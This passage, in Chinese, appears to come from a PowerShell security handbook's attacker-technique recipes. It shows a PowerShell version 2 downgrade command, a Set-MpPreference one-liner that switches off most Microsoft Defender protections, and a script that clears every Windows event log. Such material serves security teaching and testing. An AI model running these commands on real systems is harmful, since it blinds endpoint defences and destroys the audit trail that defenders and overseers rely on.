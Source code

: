 通过在运行**powershell.exe**时指定 PowerShell 的版本号，可以执行降级攻击：

```
> powershell.exe -version 2 –command <command>
```

如果指定的版本已安装，则命令将在使用过时的二进制文件时运行，这意味着仅会应用已在该版本中引入的安全功能。

如果你尝试运行**powershell.exe -version 2**并且收到类似以下代码片段的错误消息，表示缺少 .NET Framework 2.0 版本，这意味着 .NET Framework 2.0 尚未安装在系统中：

```
> powershell.exe -version 2
Version v2.0.50727 of the .NET Framework is not installed and it is required to run version 2 of Windows PowerShell.
```

.NET Framework 2.0 可以手动安装。要评估 PowerShell 版本 2 是否启用或禁用，请运行以下命令：

```
> Get-WindowsOptionalFeature -Online | Where-Object {$_.FeatureName -match "PowerShellv2"}
FeatureName : MicrosoftWindowsPowerShellV2Root
State       : Enabled
FeatureName : MicrosoftWindowsPowerShellV2
State       : Enabled
```

在此示例中，似乎 PowerShell 版本 2 仍然在此机器上启用。因此，如果缺少的 .NET Framework 2.0 被安装，该系统将容易受到降级攻击。

### 禁用 Microsoft Defender

你想禁用 Microsoft Defender 及其大多数安全功能。

#### 解决方案

你可以使用**Set-MpPreference**来实现你的目标：

```
> Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableNetworkProtection AuditMode -MAPSReporting Disabled -SubmitSamplesConsent NeverSend -EnableControlledFolderAccess Disabled -Force
```

此命令禁用实时监控、入侵防御系统、**Internet Outbound AntiVirus**（**IOAV**）保护和脚本扫描。它将网络保护设置为仅审核模式（因此不再强制执行），禁用**Microsoft Active Protection Service**（**MAPS**）报告，将同意设置为永不发送样本，并禁用受控文件夹访问。**-Force** 参数确保在没有额外提示的情况下应用这些更改。

如果你想篡改本示例中未显示的其他功能，请参阅**Set-MpPreference**文档：https://learn.microsoft.com/en-us/powershell/module/defender/set-mppreference。

### 清除日志

无论目标系统上部署的是哪个 PowerShell 版本，你都希望清除所有事件日志。

#### 解决方案

你可以使用以下代码片段清除所有事件日志：

```
Get-WinEvent -ListLog * | foreach {
    try {       [System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog($_.LogName) }
    catch {}
}
```

